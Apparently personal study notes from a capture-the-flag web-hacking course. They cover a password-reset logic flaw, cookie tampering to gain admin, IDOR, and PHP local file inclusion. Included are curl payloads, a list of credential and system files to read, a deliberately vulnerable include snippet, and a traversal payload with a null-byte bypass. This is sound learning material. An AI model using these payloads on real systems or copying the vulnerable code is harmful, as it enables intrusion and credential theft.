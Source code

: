 **logic flaw**
- ``` curl 'http://10.10.2.151/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm' ```
- the server send email to the address client posts

**cookie tempering**
- ``` curl -H "Cookie: logged_in=true; admin=true" http://10.10.2.151/cookie-test ```
- Hash crack website. https://crackstation.net/

## IDOR
-  Insecure Direct Object Reference

**find IDOR in Encode IDs**
- https://www.base64decode.org/; https://www.base64encode.org/ 

**find IDOR in Hashed IDs**
- https://crackstation.net/

## File Inclusion

**common OS files:**
- /etc/issue, /etc/profile, /proc/version, /etc/passwd,
- /etc/shadow, /root/.bash_history, /var/log/dmessage,
- /var/mail/root, /root/.ssh/id_rsa, /var/log/apache2/access.log
- C:\boot.ini


**Php include function:**
- https://www.php.net/manual/en/function.include.php


**file-get-contents.php:** 
- https://www.php.net/manual/en/function.file-get-contents.php
- user's input is passed to a function such as file_get_contents in PHP.
-  It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. 
```php
file_get_contents(
    string $filename,
    bool $use_include_path = false,
    resource $context = ?,
    int $offset = 0,
    int $length = ?
): string|false
```

**Local File Inclusion (LFI)**
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12. Auto add ".php".
- Conquer: ``` include("languages/../../../../../etc/passwd%00").".php"); ``` %00 or 0x00
- NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.
